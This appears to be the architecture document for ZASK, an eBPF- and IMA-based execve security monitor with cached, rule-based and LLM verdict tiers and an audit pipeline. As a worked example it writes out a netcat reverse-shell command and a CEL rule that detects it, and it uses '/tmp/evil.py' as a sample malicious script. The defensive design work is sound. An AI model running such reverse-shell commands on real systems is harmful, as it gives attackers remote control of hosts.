

# Architecture

This document describes how ZASK processes execution events end-to-end, from the kernel LSM hook through the tiered policy engine to audit output.

## System Overview

ZASK is a **hybrid control plane** that bridges the high-performance, restrictive world of the Linux kernel with the high-intelligence, high-latency world of LLMs. The enforcement path (nanoseconds) is separated from the analysis path (seconds).





---

## Execution Paths

Every `execve()`-family syscall triggers the eBPF LSM hook. The event then follows one of two paths through the Go engine depending on whether a known interpreter is executing a script or a regular binary is running directly.

### Path 1: Direct Binary Execution

This is the common case — a compiled binary like `/usr/bin/nc`, `/usr/local/bin/malware`, or `/usr/bin/ls` is executed directly.

```
execve("/usr/bin/nc", ["nc", "10.0.0.1", "4444", "-e", "/bin/sh"])
```

**Kernel (eBPF):**

1. The LSM hook on `bprm_check_security` fires.
2. Call `bpf_ima_file_hash()` to read the IMA-measured SHA-256 hash of the exec target into `event.hash`. If IMA is not configured, `hash_available=0` and `event.hash` is all-zeros.
3. Build the compound exec-chain key: look up `pid_hash_map[ppid]` → `parent_hash` (all-zeros if the parent started before ZASK, a.k.a. the *unknown-parent sentinel*). Store the child hash for future children: `pid_hash_map[pid] = event.hash`. Compose `exec_key = { parent_hash, child_hash }`.
4. Look up `verdict_map[exec_key]`:
   - **ALLOW hit:** Increment `baseline_allow_counter`, return `0`. No ring buffer event is produced — userspace is not involved at all. This is the kernel fast-path for known-good exec chains.
   - **BLOCK hit:** Emit the event with `is_map_hit=1`, return `-EPERM`. The ring buffer event reaches userspace; the engine short-circuits to an audit emit without re-running policy.
   - **No hit (or hash unavailable):** Emit the event with `is_map_hit=0`, return `0`. The ring buffer event reaches userspace for full Tier 2/3 evaluation.
5. Reserve a slot in the ring buffer and populate the `event` struct (BLOCK and unknown paths only):
   - `argv` = `/usr/bin/nc` (from `bprm->filename`)
   - `script_argv` = `10.0.0.1` (raw argv[1] — not a script, just an argument)
   - `pid`, `ppid`, `uid`, `cgroup_id`, `inode_number` (informational), `device_id` (informational)
   - `hash_available`, `hash[32]` — child binary content hash
   - `parent_hash_available`, `parent_hash[32]` — parent binary content hash (all-zeros = unknown-parent sentinel)
6. Submit the event to user-space.

**Go Engine:**

1. **Kernel BLOCK short-circuit:** If the event has `is_map_hit=1`, the engine is bypassed entirely. An audit record is emitted directly (`Tier: 1, Action: "BLOCK"`) and processing continues to the next event.
2. **Interpreter check:** `filepath.Base("/usr/bin/nc")` = `"nc"` → not in the interpreter set → skip script resolution.
3. **Tier 1 — Content Cache:** Check if this exec chain's key `(parent_hash, child_hash)` is in the LRU cache (known-good). If yes, return `ALLOW` immediately. Map lookup is O(1).
4. **Tier 2 — CEL Rules:** Evaluate the event against all loaded rules (first match wins). CEL conditions can inspect `argv`, `uid`, `pid`, `cgroup_id`, etc. Three outcomes:
   - **BLOCK** match → `SIGKILL` + write hash to `verdict_map` (in lockdown mode).
     ```yaml
     condition: 'argv.contains("nc") && argv.contains("-e") && argv.contains("/bin/sh")'
     ```
   - **ALLOW** match → add hash to Tier 1 cache + write `VERDICT_ALLOW` to kernel `verdict_map` + skip Tier 3. The next execution of the **same binary content** (any path, any inode) will be handled entirely in the kernel fast-path.
     ```yaml
     condition: 'argv.startsWith("/usr/bin/") || argv.startsWith("/usr/sbin/")'
     ```
   - **ALERT** match → log only, execution proceeds.
5. **Tier 3 — AI Queue:** If no rule matched, cache the exec-chain key as known-good, write `VERDICT_ALLOW` to the kernel map, and route the event to the AI analysis queue (rate-limited). AI ALLOW verdicts also promote the exec-chain key to the kernel fast-path so subsequent executions of the same chain are invisible to userspace. Events that matched an ALLOW rule at Tier 2 are **not** routed here.
6. **Audit:** Emit an `AuditEvent` with the full decision context (including the hex-encoded SHA-256 hash) to all configured outputs (JSON, Parquet, Text).

### Path 2: Script/Interpreter Execution

When a known interpreter runs a script, ZASK identifies the *script* as the real subject — not the interpreter binary. Without this, a rule blocking `/usr/bin/python3` would break every Python program, while a malicious `/tmp/evil.py` would slip through.

```
execve("/usr/bin/python3", ["python3", "-u", "/tmp/evil.py"])
```

**Kernel (eBPF):**

1–3. Same as Path 1 — Python's IMA hash is read via `bpf_ima_file_hash()`, verdict_map checked.

4. Populate the `event` struct:
   - `argv` = `/usr/bin/python3`
   - `script_argv` = `-u` (raw argv[1] — a flag, not the script path)
5. Submit the event.

**Go Engine — Script Resolution:**

1. **Interpreter check:** `filepath.Base("/usr/bin/python3")` = `"python3"` → found in the interpreter set.
2. **eBPF argv[1] inspection:** `script_argv` = `"-u"` — starts with `-`, so it's a flag, not a path.
3. **Procfs fallback:** Read `/proc/[pid]/cmdline` → `["python3", "-u", "/tmp/evil.py"]`. Scan arguments, skip flags starting with `-`, return the first path-like argument → `"/tmp/evil.py"`.
4. **Update event:** Overwrite the event's `ScriptArgv` field with `"/tmp/evil.py"` so downstream CEL rules see the resolved script path.
5. **Verdict key:** The exec-chain verdict key for this event is `(parent_hash, hash(python3))` — the interpreter binary is the child. The resolved `script_path` is stored in the event and exposed to CEL rules as the `script_path` variable, but the script's content hash is **not** computed and **not** used as the verdict key. Verdicts are therefore scoped to the `(caller, interpreter)` exec-chain pair rather than individual script files.

```
argv[1] from eBPF             procfs fallback
    "-u"          ───────►    "/tmp/evil.py"
   (flag)                     (script path, for CEL rules)
                                     │
                         exposed as `script_path` in CEL
                         (no content hash computed for this file)

Verdict key: (hash(parent), hash(python3))
```

6. **Tier 1–3:** The decision cascade runs as in Path 1, but:
   - The exec-chain key is `(parent_hash, hash(python3))` — the same key regardless of which script is passed to the interpreter.
   - CEL rules can match on `script_path`: `script_path.startsWith("/tmp/") && uid == 0`.
   - If BLOCK, the exec-chain key `(parent_hash, hash(python3))` is written to the verdict map — future invocations of Python from the same parent are denied at the kernel fast-path, regardless of what script is passed.

**Why this matters:**

| Without ZASK script resolution | With ZASK script resolution |
|---|---|
| `argv` is the interpreter path; the script is invisible | `script_path` is the resolved argv script path |
| CEL rules can only target interpreters, not scripts | CEL rules can match `script_path.startsWith("/tmp/")` |
| `python3 -u /tmp/evil.py` — argv[1] is `-u`, script missed | Procfs fallback finds `/tmp/evil.py` in argv[2] |
| Exec-chain key is always `(parent, python3)` | Same exec-chain key; differing scripts are differentiated in CEL |

### Known Interpreters

The following binaries trigger script-aware resolution by default:

`python3`, `python`, `python2`, `bash`, `sh`, `zsh`, `dash`, `fish`, `node`, `nodejs`, `ruby`, `perl`, `php`, `lua`

This list is configurable via `spec.interpreters` in the config file. Both bare names and full paths are accepted — see [Configuration Reference](configuration.md#specinterpreters).

---

## Tier Details

### Tier 1: Content LRU Cache

- **Purpose:** Fast-path skip for known-good binaries (avoids repeated CEL evaluation for `ls`, `cat`, etc.).
- **Key:** Compound exec-chain pair `(parent_hash, child_hash)` — each component a 32-byte SHA-256 hash (64 bytes total). Content-derived and never PID-based: the same binary at a different path or inode shares one cache entry. The all-zeros *unknown-parent sentinel* is valid — it correctly represents processes whose parent started before ZASK.
- **Benefits of content-based identity:**
  1. **Tamper detection:** If a binary is overwritten in-place, IMA detects the content change → new hash → stale ALLOW verdict does not apply.
  2. **Cross-container dedup:** The same container image on N nodes has different inodes but identical content → one hash, one cache entry, one AI evaluation.
  3. **Hash-based threat intel:** Sigma rules and STIX/TAXII feeds distribute known-bad SHA-256 hashes; ZASK can consume them directly.
- **Eviction:** Time-based TTL (default: 5 min) + LRU when at capacity (default: 10,000 entries).
- **Population:** Exec-chain keys are added to the cache in two scenarios:
  1. **No rule match** — the event passes Tier 2 without matching, and the exec-chain key is added as known-good before routing to Tier 3.
  2. **ALLOW rule match** — an explicit ALLOW rule matches at Tier 2, adding the exec-chain key immediately and skipping Tier 3 entirely. This is the primary mechanism for fast-pathing trusted system binaries.
- **Kernel promotion:** Both population paths also write `VERDICT_ALLOW` to the kernel `verdict_map` under the exec-chain key `(parent_hash, child_hash)`. On the *next* execution of the same exec chain, the eBPF hook handles it entirely in-kernel (< 1 μs, no ring buffer event). The `baseline_allow_counter` per-CPU map tracks the invisible volume; Phase 4 exposes it as a Prometheus metric.
- **Hash unavailability:** When `HashAvailable=0` (IMA not configured), the event bypasses the cache entirely to avoid zero-hash collisions between unrelated binaries.

### Tier 2: CEL Policy Engine

- **Purpose:** Deterministic, low-latency rule matching against structured event attributes.
- **Language:** [CEL (Common Expression Language)](https://github.com/google/cel-go) — type-safe, sandboxed, fast evaluation.
- **Variables available in rules:**

| Variable | Type | Source |
|---|---|---|
| `argv` | string | Binary path from `bprm->filename` |
| `script_path` | string | Resolved script path (empty for non-interpreter executions) |
| `pid` | int | Process ID |
| `ppid` | int | Parent process ID |
| `uid` | int | User ID |
| `cgroup_id` | int | cgroup ID (host vs. container) |
| `inode` | int | Binary inode number (informational, not used as identity) |

- **Actions:**

| Action | Behavior | Tier 3 | Tier 1 Cache |
|--------|----------|--------|--------------|
| `BLOCK` | SIGKILL + write hash to verdict map | Skipped | Not added |
| `ALLOW` | Explicitly whitelist — hash added to Tier 1 cache | Skipped | Added immediately |
| `ALERT` | Log warning, execution proceeds | Continues to Tier 3 | Not added |

- **Rule ordering (first match wins):** Rules are evaluated top-to-bottom. The first matching rule determines the action — remaining rules are skipped. This means BLOCK rules must be placed **before** broad ALLOW catchalls to avoid accidentally whitelisting threats. See [Configuration Reference](configuration.md#rule-ordering-first-match-wins) for examples.
- **Hot-reload:** Rules file is watched via `fsnotify`. Invalid reloads preserve the previous ruleset.

### Tier 3: AI Semantic Analysis

- **Purpose:** Catch obfuscated threats that static rules miss (Base64-encoded payloads, novel exploit patterns).
- **Rate limiting:** Token bucket algorithm prevents overwhelming the AI provider.
- **Feedback loop:** AI verdicts flow back into the verdict map: BLOCK verdicts write `VERDICT_BLOCK` (kernel denies on next exec), ALLOW verdicts write `VERDICT_ALLOW` (kernel fast-path on next exec). After one AI ALLOW verdict, subsequent executions of binary content with the same hash never reach userspace again.

---

## Enforcement Modes

| Mode | SIGKILL | Verdict Map Write | Audit Logging |
|---|---|---|---|
| **Lockdown** (default) | Yes | Yes | Yes |
| **Monitor** | No | No | Yes |

In **monitor mode**, the engine evaluates all tiers and emits audit events, but enforcement actions (SIGKILL, verdict map writes) are suppressed. This enables dry-run deployments for rule tuning and baseline collection.

---

## Audit Pipeline

Every processed event produces an `AuditEvent` containing the full decision context:

```
Timestamp, PID, PPID, UID, Argv, ScriptPath, Hash (hex SHA-256),
InodeNumber (informational), DeviceID (informational),
CgroupID, Tier, Action, RuleName, Mode, Reasoning
```

Events are fanned out to all configured writers via a buffered internal channel (non-blocking for the engine):

| Format | Use Case | Output |
|---|---|---|
| **JSON** (NDJSON) | Log pipelines, SIEM ingestion | File or stdout |
| **Parquet** | Data lake analytics, long-term storage | File |
| **Text** | Operator consoles, debugging | File or stdout |

---

## eBPF–Go Data Contract

The eBPF `struct event` and Go `ZaskEvent` must be byte-compatible. The `bpf2go` code generator produces Go bindings from BTF metadata. Key fields:

```
Offset  Size   Field                  Description
  0       8    inode_number           Binary inode (u64, informational)
  8       8    cgroup_id              Cgroup ID (u64)
 16       4    pid                    Process ID (u32)
 20       4    ppid                   Parent PID (u32)
 24       4    uid                    User ID (u32)
 28       4    device_id              Filesystem device ID (u32, informational)
 32       1    is_map_hit             1 if verdict_map had an entry (u8)
 33       1    hash_available         1 if IMA hash was obtained for child (u8)
 34      32    hash                   SHA-256 of child binary (exec target)
 66       1    parent_hash_available  1 if parent hash resolved from pid_hash_map (u8)
 67      32    parent_hash            SHA-256 of parent binary (all-zeros = unknown)
 99     256    argv                   Binary filename (NUL-terminated)
355     256    script_argv            Raw argv[1] from eBPF (NUL-terminated)
611       5    (padding)              Alignment to 8-byte boundary
```

Total: 616 bytes per event. The ring buffer (256 KB) holds ~425 events before overflowing. Overflows increment a per-CPU drop counter exposed as a metric.

The verdict map key is a compound, content-derived exec-chain pair: `struct exec_key { __u8 parent_hash[32]; __u8 child_hash[32]; }` (64 bytes). It encodes WHO invokes WHAT: `(hash(sshd), hash(bash))` and `(hash(nginx), hash(bash))` are distinct keys with independent verdicts. `inode_number` and `device_id` are retained in the event struct for informational logging only — they are no longer used as identity or map keys.


